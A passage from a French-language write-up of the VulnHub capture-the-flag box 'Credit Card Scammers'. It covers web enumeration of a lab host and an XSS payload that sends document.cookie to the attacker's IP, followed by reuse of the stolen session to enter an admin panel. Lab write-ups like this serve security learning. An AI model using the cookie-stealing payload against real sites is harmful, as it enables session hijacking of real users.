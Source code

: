 ```python
```

Échec ! J'ai ensuite testé [une faille qui consiste à demander le fichier via une requête Ajax](https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf) et [différentes vulnérabilités de download/upload sur Selenium](https://github.com/JonStratton/selenium-node-takeover-kit/) (toutes ne s'appliquent pas à PhantomJS).  

On ne s'en sort jamais de ces énumérations
------------------------------------------

Nouvelle énumération web, cette fois avec la wordlist *raft-large-directories.txt* :  

```plain
200       60l      174w     3658c http://192.168.56.116/_admin/dist/login.html
302        0l        0w        0c http://192.168.56.116/_admin/dist/index.php
302        0l        0w        0c http://192.168.56.116/_admin/dist/logout.php
302        0l        0w        0c http://192.168.56.116/_admin/dist/
302        0l        0w        0c http://192.168.56.116/_admin/dist/manage.php
```

On a trouvé une interface admin ! Youpi on avance !  

Malheureusement elle ne semble pas plus vulnérable que la page d'accueil.  

La présence de Selenium semble quand même supposer qu'il y a du XSS dans l'air : à quoi bon l'utiliser si ce n'est pour faire exécuter du javascript ?  

J'ai donc procédé une nouvelle fois à l'injection XSS mais cette fois en spécifiant un port plus standard :  

```javascript
<script>var img = document.createElement("img"); img.src = "http://192.168.56.1/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Finalement j'ai obtenu la réponse que j'attendais :  

```plain
192.168.56.1 - - [22/Dec/2021 13:28:11] "GET /?PHPSESSID=ng7d02qbbl7jucjgc2motad5qp HTTP/1.1" 200 -
```

Une fois le cookie réutilisé dans le navigateur j’accède à l'interface d'administration qui se divise en deux parties :  

* le dashboard qui affiche les informations soumises par les personnes scammées
* la gestion de la base de données qui permet d'exécuter des requêtes SQL sans obtenir leur output

Via le tableau HTML du dashboard et les noms de colonnes on devine qu'il y a une table *orders* avec au moins un champ nommé *cvv*. Je tente donc une simple édition :  

![Credit Card Scammers VulnHub CTF admin interface](https://github.com/devl00p/blog/raw/master/images/vulnhub/scammers.png)  
